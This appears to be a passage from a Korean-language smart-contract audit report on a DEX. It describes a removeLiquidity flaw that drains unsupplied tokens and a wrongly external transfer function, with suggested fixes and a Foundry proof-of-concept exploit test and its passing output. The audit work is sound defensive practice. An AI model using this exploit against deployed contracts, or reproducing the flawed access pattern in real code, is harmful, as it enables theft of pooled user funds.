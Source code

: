 3 ether를 공급했지만 501.5 ether를 돌려 받는다.

공급하지 않은 토큰까지 탈취가 가능하다. 

<br>

### 파급력

Critical : removeLiquidity 함수를 통해 공급하지 않은 토큰까지 탈취가 가능하다. Dex에 공급된 자금 전부를 탈취할 수 있다.

<br>

### 해결방안

유동성 풀에 있는 토큰의 비율을 검사하는 코드를 작성한다.

```solidity
require(reserveX * tokenYAmount == reserveY * tokenXAmount);
```

<br>

<br>

## 2. 잘못된 설정 - transfer

### 설명

transfer 함수가 external로 설정되어 외부에서 접근이 가능하다.

hangi-dreamer, transfer() line 159

```solidity
function transfer(address to, uint256 lpAmount) external returns (bool) {
```

<br>

```solidity
function PoC() external {

    uint lp = dex.addLiquidity(1000 ether, 1000 ether, 0);
    vm.startPrank(address(0x01));
    {
        bool success=dex.transfer(address(0x01), lp);
        console.log(success);
        console.log("transfer",lp);

        (uint tx, uint ty) = dex.removeLiquidity(lp,0,0);
    }
    vm.stopPrank();
}
```

```solidity
[PASS] PoC() (gas: 212460)
Logs:
  receive 0
  receive 1000000000000000000000000
  true
  transfer 1000000000000000000000000
```
